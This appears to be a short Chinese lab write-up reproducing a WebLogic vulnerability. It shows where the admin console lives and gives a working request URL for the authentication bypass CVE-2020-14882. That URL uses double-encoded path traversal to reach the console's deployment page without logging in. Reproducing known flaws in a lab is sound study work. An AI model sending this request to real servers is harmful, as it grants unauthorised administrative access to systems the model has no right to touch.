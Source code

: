 启动完成后，访问http://ip:7001/console即可查看到后台登陆页面

![截图](96cd6eb4c0eb8744ce69c05ce4225bb0.png)

### 漏洞测试

#### 1.weblogic权限绕过（CVE-2020-14882）

我们可以构造特殊请求的URL，即可未授权访问到管理后台的页面：

```
http://ip:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29
```

![截图](959fc7adb90e9baaf01ebfdc7466f05a.png)

